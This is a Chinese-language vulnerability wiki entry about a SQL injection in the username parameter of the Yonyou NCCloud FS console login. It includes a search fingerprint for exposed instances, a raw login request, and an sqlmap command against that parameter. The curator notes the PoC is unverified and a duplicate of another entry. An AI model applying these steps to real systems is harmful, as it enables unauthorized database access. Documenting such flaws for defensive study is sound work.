


# 用友NCCloud FS console username SQL 注入

## 条目说明

- 对象与具体问题：用友NCCloud FS；console username SQLi
- 版本、配置及部署条件：无版本
- 认证与权限前提：重复session示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 同162正文/图/请求，直接同源合并
- 无具体注入/响应/根因/修复，不计新漏洞

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

用友 NCCloud FS文件管理登录页面对用户名参数没有过滤，存在SQL注入

### 漏洞影响

```
用友 NCCloud
```

### 网络测绘

```
"NCCloud"
```

### 漏洞描述

登录页面如下


在应用中存在文件服务器管理登录页面

```plain
http://xxx.xxx.xxx.xxx/fs/
```



登录请求包如下

```http
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: xxx.xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=2CF7A25EE7F77A064A9DA55456B6994D.server; JSESSIONID=0F83D6A0F3D65B8CD4C26DFEE4FCBC3C.ser
Connection: close
```

使用Sqlmap对**username参数** 进行SQL注入

```plain
sqlmap -r sql.txt -p username
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
